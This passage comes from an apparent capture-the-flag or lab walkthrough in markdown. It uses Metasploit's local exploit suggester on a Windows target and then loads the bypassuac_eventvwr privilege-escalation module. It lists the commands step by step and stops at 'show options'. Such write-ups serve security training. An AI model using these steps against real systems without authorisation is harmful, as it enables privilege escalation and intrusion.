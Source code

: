 * ### The buid is ```7601```.
* ### The Architecture is ```x64```.

### Let run a post module of recon to get more way to exploit this system.
```
run post/multi/recon/local_exploit_suggester
```
<div align="center">
<img src="https://github.com/user-attachments/assets/9e70bc03-f656-42e2-9963-f9f681fb569e" height=""></img>
</div>

* ### The first exploit we got is
```
exploit/windows/local/bypassuac_eventvwr
```

### oh sry my machine got expired

### Now we have an exploit let backgound this session using 
```
ctrl + z
```

<div align="center">
<img src="https://github.com/user-attachments/assets/7c348c05-8a42-436d-a556-2946f805e2c2" height=""></img>
</div>

### But before running use command back to back from previous exploit
```
back
```

<div align="center">
<img src="https://github.com/user-attachments/assets/17b468ba-07ba-4ed2-81a3-d010921e7e9e" height=""></img>
</div>

### So, let run the exploit we found.
```
use exploit/windows/local/bypassuac_eventvwr
```

<div align="center">
<img src="https://github.com/user-attachments/assets/48fe5f45-3065-4835-8639-d057e9dc6405" height=""></img>
</div>

### Now let see options this exploit
```
show options
```
